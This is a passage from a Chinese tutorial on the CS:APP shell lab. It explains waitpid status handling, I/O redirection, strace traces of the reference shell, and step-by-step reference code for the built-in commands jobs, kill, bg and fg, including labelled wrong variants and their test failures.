| WNOHANG | 不阻塞：没有子进程状态变化时立即返回 0 |
| WUNTRACED | 子进程被信号停止时也返回 |
| WCONTINUED | 被停止的子进程收到 SIGCONT 继续时也返回 |
| WNOHANG | WUNTRACED | 不阻塞，终止和停止都报告：sigchld_handler 中最常用的组合 |
表 17 waitpid 的返回值与 status 的解读
| 情况 | 怎样判断 |
|---|---|
| 返回一个子进程的 pid | 这个子进程的状态变了，用下面的宏看 status |
| WIFEXITED(status) 为真 | 正常退出（exit 或从 main 返回），退出码是 WEXITSTATUS(status) |
| WIFSIGNALED(status) 为真 | 被一个信号终止，信号是 WTERMSIG(status) |
| WIFSTOPPED(status) 为真 | 被一个信号停止，信号是 WSTOPSIG(status)（只在用了 WUNTRACED 时出现） |
| WIFCONTINUED(status) 为真 | 被 SIGCONT 继续（只在用了 WCONTINUED 时出现） |
| 返回 0 | 用了 WNOHANG，而且没有子进程状态变化 |
| 返回 −1，errno 为 ECHILD | 已经没有子进程了 |
下面的程序制造三个子进程：一个 exit(3)，一个被 SIGINT 终止，一个被 SIGTSTP 停止（之后用 SIGCONT 继续、再用 SIGTERM 终止），用不同的选项观察：
static void explain(pid_t pid, int st)
{
printf(" waitpid 返回 %d，", (int)pid);
if (WIFEXITED(st)) printf("WIFEXITED：正常退出，WEXITSTATUS = %d\n",
WEXITSTATUS(st));
else if (WIFSIGNALED(st)) printf("WIFSIGNALED：被信号终止，WTERMSIG = %d\n",
WTERMSIG(st));
else if (WIFSTOPPED(st)) printf("WIFSTOPPED：被信号停止，WSTOPSIG = %d\n",
WSTOPSIG(st));
else if (WIFCONTINUED(st)) printf("WIFCONTINUED：被 SIGCONT 继续\n");
}
...
r = waitpid(a, &st, 0); explain(r, st);
r = waitpid(b, &st, 0); explain(r, st);
r = waitpid(c, &st, WNOHANG);
...
r = waitpid(-1, &st, WNOHANG | WUNTRACED); explain(r, st);
r = waitpid(-1, &st, WNOHANG | WUNTRACED);
...
kill(c, SIGCONT);
usleep(200000);
r = waitpid(-1, &st, WNOHANG | WUNTRACED | WCONTINUED); explain(r, st);
kill(c, SIGTERM);
r = waitpid(-1, &st, 0); explain(r, st);子进程 a = 2018（exit(3)）、b = 2019（SIGINT）、c = 2020（SIGTSTP）
--- 选项 0：只报告终止的子进程 ---
waitpid 返回 2018，WIFEXITED：正常退出，WEXITSTATUS = 3
waitpid 返回 2019，WIFSIGNALED：被信号终止，WTERMSIG = 2
waitpid(c, &st, WNOHANG) 返回 0：c 已停止但没有终止，选项 0 或 WNOHANG 都不报告它
--- 加上 WUNTRACED：停止的子进程也报告 ---
waitpid 返回 2020，WIFSTOPPED：被信号停止，WSTOPSIG = 20
再调用一次返回 0：同一次停止只报告一次
--- 用 SIGCONT 让 c 继续，WCONTINUED 报告继续；再用 SIGTERM 终止它 ---
waitpid 返回 2020，WIFCONTINUED：被 SIGCONT 继续
waitpid 返回 2020，WIFSIGNALED：被信号终止，WTERMSIG = 15
--- 没有子进程了 ---
waitpid 返回 -1，errno = No child processes结果说明了 sigchld_handler 为什么需要 WUNTRACED：不加它，被 ctrl-z 停止的前台作业不会被报告，shell 就不知道要把它改成 ST。信号编号 2、15、20 分别是 SIGINT、SIGTERM、SIGTSTP，tshref 打印“terminated by signal 2”“stopped by signal 20”时用的就是 WTERMSIG、WSTOPSIG 的值。
第 1.14 节的实验表明，几个 SIGCHLD 同时到达时只会被处理一次。下面的程序让 5 个子进程在 SIGCHLD 被阻塞时全部结束，再解除阻塞，对比处理程序中“回收一个”和“循环回收”两种写法：
static void chld(int sig)
{
(void)sig;
calls++;
if (loop) {
while (waitpid(-1, NULL, WNOHANG) > 0) /* 把所有已经结束的子进程都回收掉 */
reaped++;
} else if (waitpid(-1, NULL, WNOHANG) > 0) { /* 每次只回收一个 */
reaped++;
}
}每次回收一个：处理程序被调用 1 次，回收了 1 个子进程，剩下 4 个僵死进程
循环回收：处理程序被调用 1 次，回收了 5 个子进程，剩下 0 个僵死进程5 个子进程只换来一次处理程序调用，只回收一个就会留下 4 个僵死进程。所以 sigchld_handler 的主体是一个循环：while ((pid = waitpid(-1, &status, WNOHANG | WUNTRACED)) > 0)，每轮根据 status 处理一个子进程（终止的删除作业并按需打印，停止的改 state 并打印），直到返回 0 或 −1。必须用 WNOHANG，否则还有后台作业在运行时，waitpid 会一直阻塞在处理程序里。
2.8 open、dup2、close：I/O 重定向#
int open(const char *path, int flags, mode_t mode);
int dup2(int oldfd, int newfd);
int close(int fd);第 18 讲讲过这三个函数。用于 tsh 的重定向时，要记住的是 表 18 中的两组参数。
表 18 重定向时 open 的参数
| 重定向 | open 的参数 | 说明 |
|---|---|---|
| < infile | open(infile, O_RDONLY) | 文件必须存在，否则失败（ENOENT） |
| > outfile | open(outfile, O_WRONLY | O_CREAT | O_TRUNC, 0644) | 不存在就创建，存在就清空；0644 是新文件的权限 rw-r--r-- |
打开之后，用 dup2(fd, STDIN_FILENO) 或 dup2(fd, STDOUT_FILENO) 把描述符 0 或 1 改为指向这个文件，再 close 原来的 fd。运行外部程序时，这一步要在子进程中、execve 之前完成：改的是子进程自己的描述符表，shell 的标准输出不受影响，而 execve 会保留描述符表（第 18 讲）。下面的程序用这个办法实现 /bin/cat < in.txt > out.txt，并对内置命令 jobs 做重定向：
static int redirect(const char *infile, const char *outfile) /* 在子进程中调用 */
{
int fd;
if (infile) {
if ((fd = open(infile, O_RDONLY)) < 0) {
printf("open(\"%s\") 失败：%s\n", infile, strerror(errno));
return -1;
}
dup2(fd, STDIN_FILENO); /* 描述符 0 改为指向 infile */
close(fd); /* 原来的 fd 已经用不着了 */
}
if (outfile) {
if ((fd = open(outfile, O_WRONLY | O_CREAT | O_TRUNC, 0644)) < 0) {
printf("open(\"%s\") 失败：%s\n", outfile, strerror(errno));
return -1;
}
dup2(fd, STDOUT_FILENO); /* 描述符 1 改为指向 outfile */
close(fd);
}
return 0;
}
...
/* 内置命令：在 shell 进程中打开 */
fd = open("jobs.txt", O_WRONLY | O_CREAT | O_TRUNC, 0644);
listjobs(job_list, fd);
close(fd);/bin/cat < in.txt > out.txt 之后，out.txt 的内容：hello from in.txt
-rw-r--r--
open("nofile.txt") 失败：No such file or directory
jobs > jobs.txt 之后，jobs.txt 的内容：[1] (4242) Running /bin/sleep 100 &内置命令 jobs 在 shell 进程中执行，不能 dup2 改 shell 自己的描述符 1（那样之后所有输出都会进文件），而 listjobs 本来就接受一个描述符参数，打开文件、传进去、关闭即可。第 2.9 节可以看到，tshref 对外部程序的重定向是在 fork 之前由 shell 打开文件的：打不开就直接打印提示语，根本不创建子进程；子进程只做 dup2 和 close；父进程随后关闭自己的那份描述符。两种做法的输出相同，tshref 的做法让“文件打不开”的提示由 shell 打印，例如输入文件不存在时输出“Error: nofile.txt No such file or directory”（第 1.17 节的提示语表）。
2.9 用 strace 看 tshref 怎样使用这些系统调用#
strace 记录一个进程调用的每个系统调用和收到的每个信号，-f 同时跟踪它创建的子进程。用它观察参考 shell，可以直接看到上面这些调用在 tshref 中的顺序。下面的脚本向 tshref 依次输入 7 条命令（./mytstps 运行后会自己发 SIGTSTP 停止自己）：
{ echo './mytstps'; sleep 0.5; echo 'jobs'; sleep 0.3; echo 'bg %1'; sleep 0.5
echo '/bin/sleep 5 &'; sleep 0.3; echo 'kill %1'; sleep 0.5
echo '/bin/sleep 1 &'; sleep 0.2; echo 'fg %1'; sleep 1.5; echo quit; } \
| strace -f -e trace=$S -o trace1.txt ./tshref -p > out1.txt 2>&1tshref 的输出：
Job [1] (1111) stopped by signal 20
[1] (1111) Stopped ./mytstps
[1] (1111) ./mytstps
[1] (1116) /bin/sleep 5 &
Job [1] (1116) terminated by signal 15
[1] (1119) /bin/sleep 1 &strace 的记录按命令分段如下（1110 是 tshref，其余是子进程；以 # 开头的是说明，不是 strace 的输出；省略了与此无关的行）：
# ./mytstps：阻塞三个信号，fork；子进程恢复、建组、execve；父进程 sigsuspend 等待
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 clone(...) = 1111
1111 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
1111 setpgid(0, 0) = 0
1111 execve("./mytstps", ["./mytstps"], environ) = 0
1111 kill(1111, SIGTSTP) = 0
1111 --- stopped by SIGTSTP ---
1110 rt_sigsuspend([], 8) = ? ERESTARTNOHAND (To be restarted if no handler)
1110 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_STOPPED, si_pid=1111, ...} ---
# sigchld_handler：阻塞全部信号，循环 waitpid 直到返回 0，再恢复
1110 rt_sigprocmask(SIG_BLOCK, ~[RTMIN RT_1], [CHLD], 8) = 0
1110 wait4(-1, [{WIFSTOPPED(s) && WSTOPSIG(s) == SIGTSTP}],
WNOHANG|WSTOPPED|WCONTINUED, NULL) = 1111
1110 wait4(-1, 0x7ffcae9d0930, WNOHANG|WSTOPPED|WCONTINUED, NULL) = 0
1110 rt_sigprocmask(SIG_SETMASK, [CHLD], NULL, 8) = 0
# jobs：阻塞、listjobs、恢复
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
# bg %1：阻塞、向进程组发 SIGCONT、恢复
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 kill(-1111, SIGCONT) = 0
1110 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
# /bin/sleep 5 &：后台作业，fork 之后父进程 addjob、恢复，不等待
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 clone(...) = 1116
1110 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
# kill %1：向进程（不是进程组）发 SIGTERM
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 kill(1116, SIGTERM) = 0
1110 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
1110 wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}],
WNOHANG|WSTOPPED|WCONTINUED, NULL) = 1116
# fg %1：阻塞、向进程组发 SIGCONT、sigsuspend 等待作业结束
1110 rt_sigprocmask(SIG_BLOCK, [INT CHLD TSTP], [], 8) = 0
1110 kill(-1119, SIGCONT) = 0
1110 rt_sigsuspend([], 8 <unfinished ...>
1110 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=1119, ...} ---
1110 wait4(-1, [{WIFEXITED(s) && WEXITSTATUS(s) == 0}], WNOHANG|WSTOPPED|WCONTINUED,
NULL) = 1119
1110 rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0几点观察。第一，每个修改作业列表的地方（运行程序、jobs、bg、kill、fg）都夹在“阻塞 SIGINT、SIGCHLD、SIGTSTP”和“恢复”之间，正是第 2.5 节的规则。第二，sigchld_handler 用 ~[RTMIN RT_1]（即 sigfillset 之后的全部信号）阻塞了所有信号，用 WNOHANG|WUNTRACED|WCONTINUED（strace 把 WUNTRACED 显示为 WSTOPPED）循环 waitpid，直到返回 0 或 −1（ECHILD）。第三，bg、fg 向 -pid（整个进程组）发 SIGCONT；内置命令 kill 在参数为正数时只向 pid 发 SIGTERM，参数为负数时才针对进程组（实验说明 §5）。第四，fg 发出 SIGCONT 之后，和运行前台程序一样用 sigsuspend 等待，等待时传入的阻塞集合是空集 []，也就是阻塞之前的集合。
第二个实验在前台作业 /bin/sleep 3 运行时向 tshref 发 SIGINT，作业结束后再发一次：
1131 --- SIGINT {si_signo=SIGINT, si_code=SI_USER, si_pid=1008, si_uid=0} ---
1131 kill(-1132, SIGINT) = 0
1132 --- SIGINT {si_signo=SIGINT, si_code=SI_USER, si_pid=1131, si_uid=0} ---
1132 +++ killed by SIGINT +++
1131 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_KILLED, si_pid=1132, ...} ---
1131 wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGINT}],
WNOHANG|WSTOPPED|WCONTINUED, NULL) = 1132
1131 wait4(-1, 0x7ffc5e2e7830, WNOHANG|WSTOPPED|WCONTINUED,
NULL) = -1 ECHILD (No child processes)
1131 --- SIGINT {si_signo=SIGINT, si_code=SI_USER, si_pid=1008, si_uid=0} ---第一次 SIGINT 被转发给进程组 −1132，作业被终止，tshref 输出“Job [1] (1132) terminated by signal 2”；第二次 SIGINT 到达时没有前台作业，tshref 没有调用 kill（第 2.4 节）。
第三个实验看重定向，记录如下。
1142 openat(AT_FDCWD, "in.txt", O_RDONLY) = 3
1142 openat(AT_FDCWD, "out.txt", O_WRONLY|O_CREAT|O_TRUNC, 0644) = 4
1142 clone(...) = 1143
1143 setpgid(0, 0) = 0
1143 dup2(3, 0) = 0
1143 close(3) = 0
1143 dup2(4, 1) = 1
1143 close(4) = 0
1143 execve("/bin/cat", ["/bin/cat"], environ) = 0
1142 close(3) = 0
1142 close(4) = 0
1142 openat(AT_FDCWD, "jobs.txt", O_WRONLY|O_CREAT|O_TRUNC, 0644) = 3
1142 close(3) = 0最后一个实验看 nohup 和带负号的 kill。trace25 用到的测试程序 myhup 只做一件事，给自己发 SIGHUP：
int main()
{
if (kill(getpid(), SIGHUP) < 0) {
perror("kill");
exit(1);
}
exit(0);
}向 tshref 依次输入 ./myhup、nohup ./myhup、/bin/sleep 5 &、kill %-1，输出和 strace 的摘录如下：
# tshref 的输出
Job [1] (1797) terminated by signal 1
[1] (1801) /bin/sleep 5 &
Job [1] (1801) terminated by signal 15
# 直接运行 ./myhup：子进程在 execve 之前没有碰 SIGHUP（只摘出与信号处理有关的行）
1797 rt_sigaction(SIGTTIN, {sa_handler=SIG_DFL, ...}, {sa_handler=SIG_IGN, ...}, 8) = 0
1797 rt_sigaction(SIGTTOU, {sa_handler=SIG_DFL, ...}, {sa_handler=SIG_IGN, ...}, 8) = 0
1797 execve("./myhup", ["./myhup"], environ) = 0
1797 kill(1797, SIGHUP) = 0
1797 +++ killed by SIGHUP +++
# nohup ./myhup：多了一步阻塞 SIGHUP，程序发给自己的 SIGHUP 不起作用
1799 rt_sigprocmask(SIG_BLOCK, [HUP], NULL, 8) = 0
1799 execve("./myhup", ["./myhup"], environ) = 0
1799 kill(1799, SIGHUP) = 0
# kill %-1：发给进程组
1796 kill(-1801, SIGTERM) = 0直接运行时 myhup 被 SIGHUP 终止，tshref 打印“terminated by signal 1”；nohup 运行时什么也不打印，myhup 正常结束。这也印证了第 1.14 节的结论：子进程把 SIGTTIN、SIGTTOU 恢复为默认（tshref 用的就是 Signal 的 SA_RESTART 设置），而对 SIGHUP 的阻塞会一直保留到 execve 之后的程序中。
2.10 把工具组装成内置命令#
有了第一部分的定义和本部分的系统调用，每个内置命令都可以写成几步。表 19 按命令列出步骤，每一步括号中是要用的函数；完整的代码以及写的过程中会遇到的问题，在第三部分。所有修改作业列表的步骤都夹在“阻塞 SIGCHLD、SIGINT、SIGTSTP”与“恢复”之间（第 2.5 节）。
表 19 六个内置命令的步骤
| 命令 | 步骤 |
|---|---|
| quit | 结束 shell（exit(0)）。 |
| jobs | 没有 outfile 时，listjobs(job_list, STDOUT_FILENO)；有 outfile 时，open(outfile, O_WRONLY | O_CREAT | O_TRUNC, 0644)，失败则打印“Error: 文件名 Couldn't open file”，成功则 listjobs(job_list, fd) 后 close(fd)。 |
| bg | 检查 argv[1] 存在且格式正确（否则打印两种提示语之一）；按 % 开头与否用 getjobjid 或 getjobpid 找作业（找不到打印“%N: No such job”或“(N): No such process”）；kill(-pid, SIGCONT)；state 改为 BG；打印“[jid] (pid) 命令行”（与新建后台作业时相同）。 |
| fg | 前三步同 bg；state 改为 FG；然后像运行前台程序一样，用 sigsuspend 等待它不再处于前台（第 2.6 节）。 |
| kill | 检查参数；参数为正数时找到作业，kill(pid, SIGTERM)；为负数时（"%-N" 或 "-N"）找到作业后向它的进程组发 kill(-pid, SIGTERM)，找不到时打印“No such process group”的提示语。作业的删除和“terminated by signal 15”的输出由 sigchld_handler 完成。 |
| nohup | 与运行普通程序相同（阻塞、fork、子进程恢复阻塞集合、setpgid、重定向、execve、父进程 addjob、恢复、前台则等待），只是子进程在 execve 之前多一步：用 sigprocmask 阻塞 SIGHUP（tshref 的做法，第 2.9 节）；运行的是 argv[1]，参数数组是 &argv[1]。 |
写完一个命令，就用对应的 trace 与 tshref 比较（第 0.3 节）：./sdriver -t 15 -V 同时显示自己的输出和参考输出，逐行对照，差一个空格也会判为失败。
第三部分 内置命令#
从这一部分起，按动手时实际遇到问题的顺序写出完整的 tsh。每一步先说要做什么、对应哪几个 trace，再写出最先想到的写法，用 trace 或小实验检验它，看到问题之后分析原因、改正，最后留下一条规律。文中的错误写法都是在参考解答上改动一处得到的（sim/variants.py），每一个都在默认环境上编译运行过，输出照录；参考解答在 sim/sol/ 中，sdriver 得 100 分（第 7.1 节）。
3.1 eval 的第一个分支：是不是内置命令#
trace00、trace01 只要求读到文件末尾时退出、遇到 quit 时退出，前者 main 已经做好，后者是动手的第一步。打开 eval 的空壳，第一个问题就是 parseline 填好的 tok.builtins 是一个 enum（第 1.8 节），怎样据此分支。enum 的值就是一组有名字的整数常量，最自然的写法是 switch，每个 case 对应一个内置命令，BUILTIN_NONE 对应“不是内置命令”。
第二个问题是内置命令要不要区分前台和后台。不需要：内置命令在 shell 进程中直接执行（第 1.17 节的常见问题），执行完 eval 就返回，没有“等它结束”这一说；jobs & 中的 & 被 parseline 去掉后不起任何作用。需要区分前台后台的只有运行外部程序这一支。
第三个问题是 quit 应当怎样退出。一种想法是给自己发一个信号，例如 SIGQUIT，让 sigquit_handler 去结束 shell；可 sigquit_handler 是给评分程序准备的（第 1.15 节），它会打印“Terminating after receipt of SIGQUIT signal”，与 tshref 的输出不符。quit 只需要 exit(0)：main 中输出的内容都已经 fflush 过，没有需要清理的东西。
于是 eval 写成下面的样子。nohup 和普通程序走同一个函数 run_job，只是子进程要多做一步（第 4.5 节）。
void
eval(char *cmdline)
{
int bg;
struct cmdline_tokens tok;
bg = parseline(cmdline, &tok);
if (bg == -1 || tok.argv[0] == NULL)
return;
switch (tok.builtins) {
case BUILTIN_QUIT:
exit(0);
case BUILTIN_JOBS:
builtin_jobs(&tok);
break;
case BUILTIN_BG:
case BUILTIN_FG:
builtin_bgfg(&tok);
break;
case BUILTIN_KILL:
builtin_kill(&tok);
break;
case BUILTIN_NOHUP:
case BUILTIN_NONE:
run_job(&tok, bg, cmdline);
break;
}
}eval 只负责分派，每个分支交给一个函数。这既是实验说明对代码风格的要求（不要把 eval 写成几百行），也让后面每一步都能单独测试。图 9 是参考解答中全部自写函数的调用关系，后面各节按这张图的顺序逐个写出。
图 9 参考解答中自写函数的调用关系（橙色是实验要求补全的四个函数，蓝色是自写的辅助函数，灰色是 tsh.c 已给的函数）
case 后面直接写声明是另一个常见的疑问。下面的片段在 case 标号后面声明了变量：
switch (builtin) {
case 5:
long id = atol(arg);
return (int) id;用实验的编译选项 gcc -Wall -g -Werror 编译，它能通过；加上 -pedantic，或者换成 clang，就报错：
$ gcc -Wall -Werror -pedantic -c case_decl.c
8:9: error: a label can only be part of a statement and a declaration is not
a statement [-Werror=pedantic]
$ clang -Wall -Werror -c case_decl.c
8:9: error: label followed by a declaration is a C23 extension [-Werror,-Wc23-extensions]C17 及以前的标准规定标号后面只能跟语句，声明不是语句；C23 才允许这种写法，gcc 13 默认把它当作扩展接受。为了在任何编译器上都能通过，需要在 case 中声明变量时，用一对花括号把这个 case 的内容括起来，或者像参考解答那样把整个分支放进一个函数。
3.2 jobs：只多了一个“有没有重定向”的判断#
trace07 测 jobs。listjobs 已经写好，jobs 本身只是一次调用；麻烦在于 jobs 也要支持输出重定向（trace24 中的 jobs > /dev/null），而 listjobs 正好有一个参数指定输出到哪个描述符（第 1.11 节）。
最先想到的写法是“有重定向就打开文件，交给 listjobs”，把 listjobs 写在判断 outfile 的 if 里面。这样写，带重定向的 trace24 能通过，trace07 却少了两行：
$ ./sdriver -t 07 -V # 变体 jobs_if：listjobs 只写在 if (outfd >= 0) 里
Test output:
tsh> ./myspin1 10 &
[1] (10252) ./myspin1 10 &
tsh> ./myspin2 10 &
[2] (10254) ./myspin2 10 &
tsh> jobs
Reference output:
tsh> ./myspin1 10 &
[1] (10262) ./myspin1 10 &
tsh> ./myspin2 10 &
[2] (10264) ./myspin2 10 &
tsh> jobs
[1] (10262) Running ./myspin1 10 &
[2] (10264) Running ./myspin2 10 &没有重定向时 outfile 是 NULL，if 不成立，listjobs 根本没有被调用。改法是让描述符本身带上“有没有重定向”的信息：没有时用 STDOUT_FILENO，有时用打开的文件，listjobs 总是调用一次。打开文件的工作与运行外部程序的重定向完全相同，参考解答把它写成 open_redirects 和 close_redirects 两个函数，第 4.2 节再细讲。
static void
builtin_jobs(struct cmdline_tokens *tok)
{
sigset_t prev;
int infd, outfd;
if (open_redirects(tok, &infd, &outfd) < 0)
return;
block_job_signals(&prev);
listjobs(job_list, outfd >= 0 ? outfd : STDOUT_FILENO);
restore_signals(&prev);
close_redirects(infd, outfd);
}还有两点要注意。第一，文件打不开时只打印提示语、直接返回，不能调用 unix_error，否则一次 jobs > /nonexistdir/x 就会让整个 shell 退出。第二，读作业列表时也要阻塞三个信号（block_job_signals，第 6.3 节）：listjobs 逐个槽位读 job_list，如果读到一半 sigchld_handler 插进来删除了一个作业，打印出的内容就是前后不一致的。
3.3 从“%1”“1234”得到作业#
trace15 起要实现 bg、fg，trace26 起要实现 kill，三个命令都要先把参数换成作业。第 1.17 节已经给出了基本做法：参数以 % 开头的是作业号，交给 getjobjid；否则是进程号，交给 getjobpid；返回 NULL 就是找不到。作业号 jid 是 shell 自己编的号码（%1 的 1），进程号 pid 是内核分配的号码，两个函数查的是同一张 job_list，只是比较的字段不同。
动手时会遇到的第一个问题是怎样从字符串 "%12" 中取出 "12"。C 没有切片操作，也不需要：字符串就是指向第一个字符的指针，arg + 1 指向第二个字符，从那里开始的字符串就是 "12"，可以直接交给 atoi。
第二个问题是解析的结果怎样交给调用者。解析要给出两样东西：是作业号还是进程号，以及数值本身。一个自然的想法是写一个函数，把两样东西放进一个两元素的数组返回：
/* local_array.c：解析 "%12" 或 "12"，把结果放在局部数组里返回 */
#include <stdlib.h>
long *parse_id(char *arg)
{
long res[2]; /* res[0]：是否 jid，res[1]：数值 */
res[0] = (arg[0] == '%');
res[1] = atol(arg + res[0]);
return res;
}用实验的编译选项，它根本编译不过：
$ gcc -Wall -g -Werror -c local_array.c
10:12: error: function returns address of local variable [-Werror=return-local-addr]res 是局部变量，存放在 parse_id 的栈帧中，函数返回后这块栈空间就交还了，下一次函数调用会覆盖它，调用者拿到的指针指向已经无效的内存（第 6 讲的栈帧）。gcc 不但报错，在不加 -Werror 时还会故意让这个函数返回 NULL，让错误尽早暴露。改法有三种：由调用者提供数组，函数通过参数把结果写进去（输出参数）；返回一个结构体（结构体按值返回，没有这个问题）；或者干脆不写单独的函数，在使用的地方直接判断。参考解答用的是最后一种，判断只有两三行，写在 builtin_bgfg 和 builtin_kill 中，查表和提示语则集中到 find_job 中（第 3.5 节）。
第三个问题是哪些参数算格式错误。trace 只用到 %1、%-1 这样的正常参数，但 tshref 的行为就是规格，不确定时先在 tshref 上试。表 20 把同一批参数分别交给参考解答和 tshref，两边逐行相同。
表 20 参考解答与 tshref 对各种参数的输出（默认环境实测，sim/s2_builtin；先运行了 /bin/sleep 5 &，它是作业 1）
| 输入 | 两边相同的输出 | 说明 |
|---|---|---|
| bg | bg command requires PID or %jobid argument | 没有参数 |
| bg abc | bg: argument must be a PID or %jobid | 不以 % 或数字开头 |
| fg %abc | %abc: No such job | % 之后用 atoi，"abc" 得 0，没有作业 0 |
| bg %5 | %5: No such job | |
| fg 99999 | (99999): No such process | |
| fg -5 | fg: argument must be a PID or %jobid | bg、fg 不接受负号 |
| bg %1 | [1] (PID) /bin/sleep 5 & | 作业 1 已在后台运行，仍然打印 |
| kill %abc | kill: argument must be a PID or %jobid | kill 要求 % 之后是数字或负号加数字 |
| kill %-3 | %-3: No such process group | |
| kill -99999 | (99999): No such process group | 括号中没有负号 |
| kill -5x | (5): No such process group | 数字后面的多余字符被 atoi 忽略 |
| kill 0 | (0): No such process | getjobpid 对 pid 小于 1 直接返回 NULL |
从表中可以归纳出 tshref 的规则：bg、fg 的参数以 % 开头时，其余部分直接交给 atoi；不以 % 开头时，第一个字符必须是数字。kill 允许在 % 之后、或者在开头，出现一个负号，负号之后必须是数字。参考解答照这个规则写判断（第 3.4、3.5 节的代码），其余情况交给 atoi 和查表的结果，就与 tshref 一致了。
最后一个问题出在打印提示语上。“%1: No such job”中的 %1 是用户输入的原样，把它直接写进 printf 的格式串，编译就会失败：
$ gcc -Wall -g -Werror -c percent.c # printf("%1: No such job\n");
6:15: error: unknown conversion type character ':' in format [-Werror=format=]格式串中的 % 是转换说明的开头，%1: 被当成“宽度为 1、类型为 : 的转换”。要输出一个真正的 % 字符，写 %%；更好的办法是把用户的原始输入作为参数，用 %s 输出，这样无论用户输入的是 %1 还是 %abc，都原样打印出来。同理，“requires PID or %jobid argument”中的 % 在格式串里也要写成 %%。
常见问题：作业状态 UNDEF 与查找函数返回的 NULL 有什么区别？
它们在不同的层次上。UNDEF 是 job_list 中一个槽位的状态，表示这个槽位是空的、还没有存放作业（第 1.4 节），clearjob 把槽位清空时就把 state 设为 UNDEF。NULL 是 getjobjid、getjobpid 的返回值，表示“表中没有你要找的作业”。
查找函数从来不会返回一个 UNDEF 的槽位：空槽位的 jid 和 pid 都是 0，而这两个函数对小于 1 的参数直接返回 NULL，对大于 0 的参数只会匹配到真正存放着作业的槽位。所以内置命令中只需判断返回值是否为 NULL，不需要再检查 state 是不是 UNDEF。
3.4 kill：发什么信号，发给谁#
kill 的第一版很容易写成“找到作业，发 SIGKILL”，理由是 SIGKILL 不能被捕获、一定能杀死进程，看起来更稳妥。trace28 却在这里超时：
$ ./sdriver -t 28 -V # 变体 sigkill：kill 发 SIGKILL
Test output:
[1] (9970) ./myterm1 &
trace28.txt: Runtrace timed out waiting for sync from job
Reference output:
[1] (9975) ./myterm1 &原因要到测试程序 myterm1.c 中去找。它为 SIGTERM 安装了处理程序，收到 SIGTERM 时通过一个套接字通知 runtrace“我收到了”，然后才退出：
void sigterm_handler()
{
int rc;
char *cmdp;
cmdp = "";
printf("terminate successfully\n");
fflush(stdout);
if ((rc = send(syncfd, cmdp, strlen(cmdp), 0)) < 0) {
perror("send");
exit(1);
}
...
exit(0);
}trace28 在 kill 之后有一行 WAIT，runtrace 要等到这个通知才继续。SIGKILL 直接杀死进程，处理程序没有机会运行，通知永远不会来，runtrace 就超时了。实验说明和 tshref 都规定内置命令 kill 发 SIGTERM；SIGTERM 的含义是“请你结束”，程序可以先做清理（这里是通知 runtrace）再退出，这正是它与 SIGKILL 的区别。
发给谁也有讲究。第 2.9 节用 strace 看到，tshref 对正数参数（kill %1、kill 1234）调用 kill(pid, SIGTERM)，只发给作业的那个进程；对负数参数（kill %-1、kill -1234）调用 kill(-pid, SIGTERM)，发给作业的整个进程组。trace30 的 myterm3 会再创建子进程，用的正是 kill %-1。
第三个问题是能不能直接调用 Kill。csapp.h 中有现成的包装函数 Kill，在 tsh.c 中声明它的原型就能编译，但链接失败：
$ make tsh # 变体 csapp_kill：调用 csapp.h 中声明的 Kill
.../tsh.c:449:(.text+0xc0b): undefined reference to `Kill'
.../tsh.c:491:(.text+0xe18): undefined reference to `Kill'
collect2: error: ld returned 1 exit statusMakefile 只用 tsh.c 和 fork.c 链接 tsh（第 0.1 节），csapp.c 不参与，提交时也只交 tsh.c，所以 csapp.c 中的函数一个也用不了。要用包装函数，就把它们写进 tsh.c。参考解答写了八个，每个都是“调用、检查返回值、失败时 unix_error”（第 7.2 节）；名字首字母大写，与 csapp.c 的习惯一致。
把这三点合起来，就是参考解答的 builtin_kill。参数检查按 表 20 的规则：可选的 %，可选的负号，然后必须是数字。查表与提示语交给 find_job（第 3.5 节），group 决定提示语中的“job”“process”是否换成“process group”。查找和发信号都在阻塞区内进行，原因在第 6.3 节。
static void
builtin_kill(struct cmdline_tokens *tok)
{
char *arg = tok->argv[1], *p;
int is_jid, group, id;
sigset_t prev;
struct job_t *job;
if (arg == NULL) {
printf("kill command requires PID or %%jobid argument\n");
return;
}
p = arg;
if ((is_jid = (*p == '%')))
p++;
if ((group = (*p == '-')))
p++;
if (!isdigit((unsigned char) *p)) {
printf("kill: argument must be a PID or %%jobid\n");
return;
}
id = atoi(p);
block_job_signals(&prev);
job = find_job(arg, is_jid, id, group);
if (job != NULL)
Kill(group ? -job->pid : job->pid, SIGTERM);
restore_signals(&prev);
}kill %-1 中负号的作用只是选择“发给进程组”，查表时用的仍然是作业号 1，所以先跳过负号再用 atoi 取数，id 总是正数。作业被 SIGTERM 杀死之后，删除作业、打印“Job [1] (pid) terminated by signal 15”都由 sigchld_handler 完成（第五部分），builtin_kill 发完信号就返回。
isdigit((unsigned char) *p) 中的类型转换不是多余的：isdigit 的参数必须是 unsigned char 能表示的值或 EOF，char 在 x86-64 上是有符号的，用户输入一个汉字时，*p 是负数，直接传进去是未定义行为。
3.5 bg 与 fg：共用查表，各自收尾#
bg 和 fg 的前半部分完全相同：检查参数、查表、找不到时打印提示语；后半部分不同：bg 把作业改为 BG 并打印一行，fg 把作业改为 FG 并等待它。kill 的前半部分也与它们相同，只是提示语多了“process group”一种。
